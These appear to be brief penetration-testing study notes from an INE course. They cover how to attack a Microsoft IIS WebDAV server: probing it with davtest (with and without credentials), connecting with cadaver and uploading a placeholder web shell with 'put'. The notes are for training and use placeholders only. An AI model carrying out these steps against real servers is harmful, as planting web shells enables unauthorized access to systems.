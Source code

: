 # Windows Vunerabilities

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
